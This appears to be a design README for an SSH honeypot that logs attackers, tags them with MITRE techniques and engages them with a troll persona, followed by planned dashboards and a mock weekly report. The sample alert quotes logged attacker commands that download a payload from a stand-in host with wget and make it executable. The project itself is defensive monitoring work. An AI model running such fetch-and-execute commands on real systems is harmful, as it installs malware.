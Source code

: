 **Enhanced Alert:**
```
🚨 CRITICAL - Login Success + Active Engagement

📍 Geolocation: Beijing, China (AS4134 - Chinanet)
🔍 GreyNoise: Known Scanner (Malicious)
🎯 MITRE: T1078 - Valid Accounts
⏱️ Latency: 45ms (Automated Scanner)
📊 Session: 5 commands, 3 phases (Recon → Persistence → Execution)
😈 Troll Status: Engaged with "Philosophy Bot" persona
⏰ Time Wasted: 12 minutes

Commands:
• uname -a (T1082 - Recon)
• wget http://malware.com/payload (T1053 - Persistence)
• chmod +x payload (T1059 - Execution)
```

---

### 8. **Grafana Dashboard**
**Status:** 📋 Design Ready

**Metrics to Track:**
- Active sessions (real-time)
- Average session duration
- Commands per session
- Time-wasting ratio (troll effectiveness)
- Attack phase distribution
- Top attacker countries
- MITRE technique frequency

**Implementation:**
```bash
# Deploy Prometheus + Grafana
docker-compose up -d prometheus grafana

# Configure Cowrie exporter
python3 cowrie_prometheus_exporter.py
```

---

### 9. **Weekly Lambda Summary**
**Status:** 📋 Design Ready

**Auto-generates weekly report:**
```
📊 Weekly Honeypot Summary (Oct 16-23, 2025)

🎯 Top Attackers:
1. 1.2.3.4 (China) - 1,247 attempts
2. 5.6.7.8 (Russia) - 892 attempts
3. 9.10.11.12 (USA) - 654 attempts

🛠️ Top Tools Used:
1. Mirai botnet (45%)
2. Custom scripts (32%)
3. Manual attacks (23%)

😈 Troll Success Metrics:
• Average engagement: 8.3 minutes
• Longest session: 47 minutes (Philosophy Bot)
• Total time wasted: 127 hours
• Attacker frustration level: 🔥🔥🔥🔥🔥

```